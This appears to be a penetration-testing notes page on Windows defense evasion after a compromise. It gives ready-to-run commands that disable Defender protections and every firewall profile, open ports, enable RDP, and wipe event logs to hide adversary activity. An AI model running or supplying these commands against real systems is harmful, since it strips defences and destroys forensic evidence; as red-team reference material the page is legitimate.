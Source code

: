 # Windows - Post exploitation - Defense evasion

### Windows Defender

The following PowerShell command can be used to switch off `Windows Defender`
real-time protection:

```Powershell
# Add the specified folder to Windows Defender's exclusion list.
# The exclusion list can be retrieved using: Get-MpPreference | Ft ExclusionPath
Add-MpPreference -ExclusionPath "<PATH>"

# Disables Windows Defender real-time protection.
Set-MpPreference -DisableRealtimeMonitoring $true

# Disables, in addition to real-time protection, various other protections offered by Microsoft Defender (scanning of scripts and downloaded files, automatic sample submission, etc.).
Set-MpPreference -DisableRealtimeMonitoring $true -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableScriptScanning $true -EnableControlledFolderAccess Disabled -EnableNetworkProtection AuditMode -Force -MAPSReporting Disabled -SubmitSamplesConsent NeverSend
```

### Windows Firewall

To check whether the Windows Firewall is enabled on a server or computer,
the following command can be used as `Administrator` / `SYSTEM`:

```Powershell
# Show the profile applied to each network adapter
netsh advfirewall monitor show currentprofile

# Windows Firewall state for all profile (Public / Domain / Private)
netsh advfirewall show allprofiles
Get-NetFirewallProfile

# Show all rules for the given profile
netsh advfirewall firewall show rule profile=<public | private | domain | any | ...> name=all
Get-NetFirewallProfile -Name <Public | Private | Domain | * | ...> | Get-NetFirewallRule
```

By default, three separate listings are present: Domain profile settings,
private profile settings and public profile settings.
With the private profile, applied to a network adapter when it is connected
to a network that is identified by the user or administrator as a private
network, Windows enables network discovery features, allows file sharing and
other networked features.
The public profile, applied to a network adapter by default or if specified so
by an user or administrator, is the most restrictive profile. In the default
public profile, Windows will block all inbound connections to programs that are
not on the list of allowed programs.
Finally, the Domain profile is used when a server or computer is joined to an
Active Directory domain. In this environment, firewall settings are typically
(but not necessarily) controlled by a network administrator.

Windows blocks inbound connections and allows outbound connections for all
profiles by default.

To disable the firewall use the following commands:

```Powershell
# Disable current profile
netsh advfirewall set currentprofile state off

# Disable all profiles
netsh advfirewall set allprofiles state off
Set-NetFirewallProfile -All -Enabled False

# Disable the private, public and domain profiles
netsh advfirewall set privateprofile state off
netsh advfirewall set publicprofile state off
netsh advfirewall set domainprofile state off
Set-NetFirewallProfile -Profile <Domain | Private | Public | PROFILE NAME> -Enabled False
```

To open a specific port, or a range, use the following command:

```bash
netsh advfirewall firewall add rule name="<RULE_NAME>" protocol=TCP dir=in localport=<PORT> action=allow
```

### Activate RDP

RDP can be enabled / disabled with out the need to restart the system with the
`reg` utility:

```bash
# Check if RDP is enabled
netstat /p tcp /a | findstr 3389
# If RDP is enabled, registry value should be equal to 0x0
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections

# Enable RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

# Disable RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
```

### Windows logs clearing

Windows event logs track the activity and a number of operations conducted on
the system.

The following notable hives, located in ` %systemroot%\System32\winevt\Logs`,
may be of interest for forensics analysis (and should thus be deleted in
priority to hide adversary activity):
  - `Security.evtx`: users logon / logoff, local accounts and groups
    operations, process creation with command line if activated, etc.
  - `System.evtx`: Windows service creation operations (creation, execution,
    deletion, etc.)
  - `Windows PowerShell.evtx` and
    `Microsoft-Windows-PowerShell%4Operational.evtx`: PowerShell activity, with
    a varying level of information depending on the system configuration
    (activation of non default `Module Logging`, `Script block logging`, etc.)
  - `Microsoft-Windows-TaskScheduler%4Operational.evtx`: scheduled tasks
    operations (registration, execution, deletion, etc.).
  - `Microsoft-Windows-TerminalServices-RemoteConnectionManager%4Operational.evtx`,
    `Microsoft-Windows-TerminalServices-LocalSessionManager%4Operational`, and
    `Microsoft-WindowsRemoteDesktopServicesRdpCoreTS%4Operational.evtx`: `RDP`
    activity such as access to the Windows login screen and remote interactive
    logon through.
  - `Microsoft-Windows-WinRM%4Operational`
  - `Microsoft-Windows-Shell-Core%4Operational.evtx`: programs executed through
    the `Run` / `RunOnce` `ASEPs` registry keys.
  - `Microsoft-Windows-AppLocker%4EXE and DLL.evtx` and
    `Microsoft-Windows-AppLocker%4MSI and Script` (and others
    `Microsoft-Windows-AppLocker%4*.evtx`): execution of binaries and scripts
    if `AppLocker` is activated in `Audit only` mode (non default).

Note that upon clearing of some `EVTX` hives (such as the `Security` and
`System` hives), specific events will be generated to keep trace of the logs
clearing. Refer to the `[DFIR] Windows - EVTX integrity` note for more
information on the Windows events generated by events deletion.

```
# Clears the specified hive using the wevtutil built-in utility.
wevtutil cl <security | system | HIVE_NAME>

# Clears the specified hive using the Clear-EventLog PowerShell cmdlet.
Clear-EventLog -LogName <Security | System | HIVE_NAME>

# Clears all the logs of the registered ETW provider.
$AllLogs = Get-EventLog -List | ForEach-Object {$_.Log}
$AllLogs | ForEach-Object {Clear-EventLog -LogName $_ }
```

https://github.com/QAX-A-Team/EventCleaner
